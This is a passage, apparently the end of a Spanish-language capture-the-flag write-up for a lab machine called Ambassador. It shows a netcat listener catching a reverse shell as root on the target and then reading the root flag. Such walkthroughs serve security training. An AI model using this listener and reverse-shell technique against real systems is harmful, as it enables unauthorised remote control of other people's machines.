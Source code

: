Y recibimos le shell 

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.183] 35798
bash: cannot set terminal process group (2284): Inappropriate ioctl for device
bash: no job control in this shell
root@ambassador:/# whoami
whoami
root
root@ambassador:/# 
```

## Root.flag 

```bash
root@ambassador:/# cd /root
cd /root
root@ambassador:~# cat root.txt	
cat root.txt 
9f995d4bfc19d338b9565baca040d5ea
root@ambassador:~# 
```
